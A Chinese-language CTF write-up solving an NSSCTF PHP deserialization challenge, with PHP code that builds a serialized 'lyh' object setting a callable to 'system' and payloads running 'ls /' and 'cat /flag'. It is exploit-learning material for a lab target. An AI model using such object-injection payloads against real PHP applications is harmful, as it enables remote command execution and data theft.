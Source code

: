 ![img](./assets/wps299.jpg)

分析源码：

post传参nss

并将其反序列化

 

 

 

_destruct()

魔术方法

__destruct 方法在对象销毁时会自动调用，而且其中的代码会在函数调用时执行。

nss反序列化后，其中代码会被执行

$a参数接受lt的值

![img](./assets/wps300.jpg) 

很像命令执行 函数+指令

 

*因此构造恶意序列化对象*

使$a=system

$lly=ls /

查看目录

得到序列化对象

 

<?php

class lyh{

  public $url ="NSSCTF.com";

  public $lt;

  public $lly;

}

$a= new lyh();

$a->lt = "system";

$a->lly = "ls /";

echo serialize($a);

?>

 

O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";} 

 

构造payload：

nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";} 

 

![img](./assets/wps301.jpg) 

 

查看flag

 

<?php

class lyh{

  public $url ="NSSCTF.com";

  public $lt;

  public $lly;

}

$a= new lyh();

$a->lt = "system";

$a->lly = "cat /flag";

echo serialize($a);

?>

 

O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}

 

 

构造payload：

nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:9:"cat /flag";}

 

 

![img](./assets/wps302.jpg) 

 

 